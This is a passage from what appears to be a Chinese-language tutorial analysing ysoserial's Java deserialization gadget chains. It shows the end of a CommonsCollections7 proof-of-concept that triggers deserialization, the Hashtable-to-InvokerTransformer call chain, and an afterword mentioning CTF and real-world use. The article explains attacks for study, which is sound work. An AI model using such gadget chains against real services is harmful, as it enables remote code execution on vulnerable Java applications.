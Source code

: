 ```java
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC7();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p2.ssl.qhimg.com/t01df39d6821b0c336f.png "undefined")

## 调用链

```java
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

## 总结
主体思想是用`Hashtable`代替`HashMap`触发`LazyMap`，后续利用与`CommonsCollections6`链的`HashMap`利用方式基本一致。

# 后言
本文从`Java`反射入手，逐步分析了`ysoserial`项目中的`URLDNS`链和`CommonsCollections1`到`CommonsCollections7`链，在实战中和`CTF`竞赛中往往需要对现有的链子进行改造，但是根本的思想还是类似的，由于自己在分析的过程中还有很多的不足以及不理解的地方，对于文章中的错误欢迎师傅们进行指正。